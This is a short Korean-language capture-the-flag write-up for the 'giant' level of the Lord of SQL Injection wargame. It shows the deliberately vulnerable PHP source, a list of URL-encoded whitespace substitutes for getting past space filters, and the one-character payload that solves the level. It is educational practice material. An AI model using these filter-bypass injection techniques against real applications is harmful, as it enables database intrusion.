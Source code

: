 -----

# > Lord of Sql injection: giant

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```

아니.. 문제를 보고 뇌절이 왔다.

글자수가 한자리보다 길면 안되는데 공백을 나타내야만 한다.

<br>

## writeup

구글링은 위대하는 점을 또 깨우쳤다.

공백을 대체하기 위한 기호는 다음과 같다.

<div class="code-example">
%09 : tab<br>
%0a : line feed<br>
%0b : vertical tab<br>
%0c : form feed<br>
%0d : carriage return<br>
+ : space와 동일<br>
+ /**/ : 주석, 내부에 임의의 문자열 삽입 가능<br>
</div>

나는 `%0b` 를 이용하여 풀었다.

```
shit=%0b
```

![image-20220609134013065](../img/image-20220609134013065.png)

<br><br><br>

-----
